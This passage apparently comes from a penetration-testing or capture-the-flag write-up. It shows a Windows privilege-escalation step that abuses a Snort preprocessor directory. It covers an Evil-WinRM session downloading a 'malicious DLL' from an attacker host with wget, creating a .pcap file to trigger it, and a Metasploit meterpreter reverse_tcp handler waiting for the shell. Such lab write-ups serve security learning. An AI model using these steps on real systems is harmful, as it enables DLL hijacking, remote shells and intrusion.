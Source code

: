 ```powershell
# download the malicious DLL
*Evil-WinRM* PS C:\Users\jdoe\Documents> cd C:\snort\lib\snort_dynamicpreprocessor
*Evil-WinRM* PS C:\snort\lib\snort_dynamicpreprocessor> wget http://10.10.14.16:8888/sf_engine.dll

StatusCode        : 200
StatusDescription : OK
Content           : {77, 90, 144, 0...}
RawContent        : HTTP/1.0 200 OK
                    Content-Length: 9216
                    Content-Type: application/x-msdos-program
                    Date: Wed, 24 Jan 2024 07:31:59 GMT
                    Last-Modified: Wed, 24 Jan 2024 07:25:00 GMT
                    Server: SimpleHTTP/0.6 Python/3.11....
Headers           : {[Content-Length, 9216], [Content-Type, application/x-msdos-program], [Date, Wed, 24 Jan 2024 07:31:59 GMT], [Last-Modified, Wed, 24 Jan 2024 07:25:00 GMT]...}
RawContentLength  : 9216

# confirm the file was downloaded
*Evil-WinRM* PS C:\snort\lib\snort_dynamicpreprocessor> ls

    Directory: C:\snort\lib\snort_dynamicpreprocessor

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
<SNIP>
-a----        1/23/2024  10:13 PM           9216 sf_engine.dll
<SNIP>

# create an empty .pcap file
*Evil-WinRM* PS C:\snort\lib\snort_dynamicpreprocessor> New-Item -Path "C:\snort\lib\snort_dynamicpreprocessor\emptyFile.pcap" -ItemType File

    Directory: C:\snort\lib\snort_dynamicpreprocessor

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/24/2024   8:33 AM              0 emptyFile.pcap
```

Finally, we can launch our meterpreter and wait to catch our shell:

```bash
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


```